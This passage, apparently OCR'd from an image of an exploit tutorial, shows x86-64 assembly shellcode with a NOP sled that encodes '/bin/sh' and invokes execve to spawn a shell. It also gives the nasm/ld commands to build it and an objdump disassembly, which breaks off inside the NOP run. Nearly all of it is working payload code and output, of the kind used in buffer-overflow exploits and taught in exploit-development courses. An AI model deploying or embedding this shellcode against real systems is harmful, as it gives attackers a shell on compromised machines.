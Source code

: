 ```
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor esi, esi
	mul esi
	add al, 0x3b	
	neg rdi
	push rdi
	push rsp
	pop rdi
	syscall
```

and to compile the shellcode:

```
$	nasm -f elf64 shellcode.asm
$	ld -o sheller shellcode.o 
$	objdump -D sheller -M intel

sheller:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	48 bf d1 9d 96 91 d0 	movabs rdi,0xff978cd091969dd1
  400087:	8c 97 ff 
  40008a:	e9 0c 00 00 00       	jmp    40009b <_start+0x1b>
  40008f:	90                   	nop
  400090:	90                   	nop
  400091:	90                   	nop
  400092:	90                   	nop
  400093:	90                   	nop
  400094:	90                   	nop
  400095:	90                   	nop
  400096:	90                   	nop
  400097:	90                   	nop
  400098:	90                   	nop
  400099:	90                   	nop
  40009a:	90                   	nop
  40009b:	90                   	nop
  40009c:	90                   	nop
  40009d:	90                   	nop
  40009e:	90                   	nop
  40009f:	90                   	nop
  4000a0:	90                   	nop
  4000a1:	90                   	nop
  4000a2:	90                   	nop
  4000a3:	90                   	nop
  4000a4:	90                   	nop
```